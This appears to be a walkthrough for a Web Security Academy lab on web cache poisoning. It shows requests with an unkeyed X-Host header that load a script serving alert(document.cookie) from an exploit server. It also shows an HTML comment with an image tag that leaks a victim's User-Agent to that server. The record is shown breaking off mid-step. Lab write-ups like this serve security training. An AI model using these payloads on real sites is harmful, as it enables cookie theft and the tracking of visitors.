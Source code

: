 ```bash

To

GET /?kahxa1x2m1=1&cb=1234 HTTP/1.1

(This should actually be two counter-balance parameters, but it does not hurt)

Add:

X-Host: check.com

Send
Response:

<script type="text/javascript" src="//check.com/resources/js/tracking.js"></script>

Go to: "Go to exploit server"
File:

/resources/js/tracking.js

Body:

alert(document.cookie)

Store

exploit-0ae0002f03aad178c07d4fbf01ae00ae.web-security-academy.net

Go to:

https://0af1009d03e1d1fdc0834fb3007e0016.web-security-academy.net/post?postId=3

Acknowledge that the comment field says 'HTML is allowed'
Comment:

<img src='https://exploit-0ae0002f03aad178c07d4fbf01ae00ae.web-security-academy.net/clickme' />

Name:

name

Email:

email@email.com

Post Comment

Go to: "Go to exploit server"
View logs
Note the new IP user-agent
Go to: Repeater
Change:

GET /?kahxa1x2m1=1&cb=1234 HTTP/1.1

To

GET / HTTP/1.1

Change:

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 kahxa1x2m1
```
